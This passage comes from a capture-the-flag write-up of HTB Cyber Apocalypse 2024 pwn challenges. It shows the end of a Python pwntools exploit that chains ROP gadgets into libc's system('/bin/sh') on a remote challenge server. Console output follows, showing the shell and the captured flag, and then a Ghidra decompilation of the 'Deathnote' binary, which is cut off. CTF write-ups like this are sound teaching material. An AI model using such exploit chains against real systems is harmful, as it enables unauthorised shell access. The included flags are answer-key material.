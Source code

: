 ```py

    payload = flat({
        offset      : p64(pop_rdi),
        offset + 8  : p64(next(libc.search(b'/bin/sh\x00'))),
        offset + 16 : p64(pop_rdi+1),
        offset + 24 : p64(libc.sym.system)
        })

    r.sendlineafter(b'XX!\n\n>> ', payload)

    r.interactive()


if __name__ == "__main__":
    main()
```

```console
> python solve.py
[+] Opening connection to 83.136.250.140 on port 58876: Done
hex(leak)='0x7b12a1e80e50'
hex(libc.address)='0x7b12a1e00000'
[*] Switching to interactive mode

Preparing beta testing..
$ cat flag.txt
HTB{b00m_b00m_r0ck3t_2_th3_m00n}
```

### Flag
`HTB{b00m_b00m_r0ck3t_2_th3_m00n}`

---

## pwn/Sound of Silence

I lost my writeup for this chall 😭 so you can refer [this](https://github.com/hackthebox/cyber-apocalypse-2024/tree/main/pwn/%5BMedium%5D%20Sound%20of%20Silence)

## pwn/Deathnote
> You stumble upon a mysterious and ancient tome, said to hold the secret to vanquishing your enemies. Legends speak of its magic powers, but cautionary tales warn of the dangers of misuse. <br>
> Attachment: [pwn_deathnote.zip](https://github.com/hackthebox/cyber-apocalypse-2024/blob/main/pwn/%5BMedium%5D%20Death%20Note/release/pwn_deathnote.zip)

### Analysis

On reversing with ghidra we get the following source:

```c
void main(void)

{
  ulong choice;
  long pages [10];
  
  pages[0] = 0;
  pages[1] = 0;
  pages[2] = 0;
  pages[3] = 0;
  pages[4] = 0;
  pages[5] = 0;
  pages[6] = 0;
  pages[7] = 0;
```